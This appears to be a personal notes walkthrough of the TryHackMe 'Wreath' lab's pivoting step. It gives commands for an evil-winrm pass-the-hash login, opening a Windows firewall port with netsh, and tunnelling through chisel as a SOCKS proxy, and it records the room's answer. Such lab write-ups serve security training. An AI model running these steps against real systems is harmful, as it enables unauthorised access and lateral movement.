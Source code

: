 We found two ports open in the previous task. RDP won't be of much use to us without credentials (or at least a hash, although Pass-the-Hash attacks are often restricted through RDP anyway); however, the webserver is worth looking into. Wreath told us that he worked on his website using a local environment on his own PC, so this bleeding-edge version may contain some vulnerabilities that we could use to exploit the target. Before we can do that, however, we must figure out how to access the development webserver on Wreath's PC from our attacking machine.

We have two immediate options for this: *Chisel*, and *Plink*.

If you followed the recommended route of using sshuttle to pivot from the webserver then a _chisel forward proxy_ is recommended here as it will be relatively easy to connect to through the sshuttle connection without requiring a relay -- look back at the Chisel task if you need help with this!

When using this option you will need to open up a port in the Windows firewall to allow the forward connection to be made. The syntax for opening a port using `netsh` looks something like this:  
`netsh advfirewall firewall add rule name="NAME" dir=in action=allow protocol=tcp localport=PORT`

Please use the `name-USERNAME` naming convention -- for example:  
`netsh advfirewall firewall add rule name="Chisel-MuirlandOracle" dir=in action=allow protocol=tcp localport=47000`  
![Demonstration of the above firewall rule through WinRM](https://assets.tryhackme.com/additional/wreath-network/31589c0e89b3.png)

Whether you choose the recommended option or not, get a pivot up and running!


![[AccesS to PC.svg]]

---

# Your job

1. For pivoting, we can use chisel. Run evil-winrm . #Attacking_Machine 
```
evil-winrm -u Administrator -H 37db630168e5f82aafa8461e05c6bbd1 -i 10.200.84.150 -s /home/kali/Tryhackme/Wreath/Chisel_1.7.7
```

2. Open up a port for pivoting. 
#Evil-WinRM_shell 
```
netsh advfirewall firewall add rule name="Chisel-exec2" dir=in action=allow protocol=tcp localport=18456
```
> [!Note]
>If you can't connect to the webpage, change the localport.

#Attacking_Machine 
3. Download   [chisel_1.7.7_windows_amd64.gz](https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_windows_amd64.gz)  and [chisel_1.7.7_linux_amd64.gz](https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_linux_amd64.gz) 

4. Decompress the .gz file. #Attacking_Machine 

5. Upload the chisel.exe file.
#Evil-WinRM_shell 
```
upload chisel.exe
```

6. Setup chisel server forward socks proxy on 
#Evil-WinRM_shell 
```
./chisel.exe server -p 18456 --socks5
```

7. Install chisel on Kali Linux. #Attacking_Machine 
	- Download `chisel_1.10.1_linux_amd64.deb` and decompress it.
	- Copy `chisel` file to `/usr/bin`.

![[Screenshot from 2025-02-21 11-51-44.png]]

8. Run chisel client. 
#Attacking_Machine 
```
chisel client 10.200.84.150:18456 9090:socks
```

![[Screenshot from 2025-02-21 11-50-16.png]]

Now the socks proxy is opened on port 9090 of our port

9. Setup FoxyProxy: Ensure you setup a `SOCKS5` proxy with *foxyproxy*:
	 ![[Pivoting-20250126190740769.webp]]

10. Navigate to http://10.200.X.100.
	 ![[Pivoting-20250126190906256.webp]]

9. Install wappalyzer extension on your browers and see the results.
	![[Pivoting-20250126191308575.webp]]

Access the website in your web browser (using FoxyProxy if you used the recommended forward proxy, or directly if you used a port forward).

> [!Question]
>Using the Wappalyzer browser extension ([Firefox](https://addons.mozilla.org/en-GB/firefox/addon/wappalyzer/) | [Chrome](https://chrome.google.com/webstore/detail/wappalyzer/gppongmhjkpfnbhagpmjfkannfbllamg?hl=en)) or an alternative method, identify the server-side Programming language (including the version number) used on the website.
>`PHP 7.4.11`


**Next step: ** [[The Wonders of Git]]
